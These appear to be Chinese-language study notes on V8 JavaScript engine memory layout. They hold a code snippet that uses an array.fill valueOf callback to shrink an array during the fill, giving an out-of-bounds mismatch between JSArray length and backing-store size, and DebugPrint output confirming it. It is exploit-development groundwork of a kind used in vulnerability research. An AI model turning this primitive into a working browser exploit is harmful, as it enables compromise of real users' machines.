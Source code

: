 ## v8对象内存结构

v8 fixed array fixed Double Array

###  Array

![image-20210117170245308](C:\v8\v8 入门.assets\image-20210117170245308.png)

![image-20210117173545843](C:\v8\v8 入门.assets\image-20210117173545843.png)

```js
array = [1,2,123,21];
array.length = 0x1234;
%DebugPrint(array); 

console.log("++++++++++++++++++\r\n\r\n");

oob_access_array = array.fill(1.1, 0x1000 - 1, {valueOf() {
    array.length = 0x16;
    array.fill(9);
    return 0x1001;
  }});
  
 %DebugPrint(array); 
  
array2 = new ArrayBuffer(0x100);

%DebugPrint(array2);

let data_view = new DataView(new ArrayBuffer(8));
data_view.setFloat64(0, 1.2);
data_view.getFloat64(0);

%SystemBreak();

DebugPrint: 0x3c8c0aa8dc59: [JSArray]
 - map: 0x3820c6802e89 <Map(HOLEY_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x36c19a410ff1 <JSArray[0]>
 - elements: 0x3c8c0aa8dce9 <FixedArray[4660]> [HOLEY_SMI_ELEMENTS]
 - length: 4660
 - properties: 0x09a713d00c21 <FixedArray[0]> {
    #length: 0x06a9a80801a9 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x3c8c0aa8dce9 <FixedArray[4660]> {
           0: 1
           1: 2
           2: 123
           3: 21
      4-4659: 0x09a713d005b1 <the_hole>
 }

++++++++++++++++++

// 通过 array.fill(1.1, 0x1000 - 1, {valueOf() {array.length = 0x16;return 0x1001; }}) 这种方式修改的array数组 可以看到 jsarray内存中 length 是0x16 然而elements 指向的时间存储数组的地方 表示 数组长度是 0x1001

DebugPrint: 0x3c8c0aa8dc59: [JSArray]
 - map: 0x3820c6802f29 <Map(HOLEY_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x36c19a410ff1 <JSArray[0]>
 - elements: 0x3c8c0aa96fe1 <FixedDoubleArray[4097]> [HOLEY_DOUBLE_ELEMENTS]
 - length: 22  
 - properties: 0x09a713d00c21 <FixedArray[0]> {
    #length: 0x06a9a80801a9 <AccessorInfo> (const accessor descriptor)
```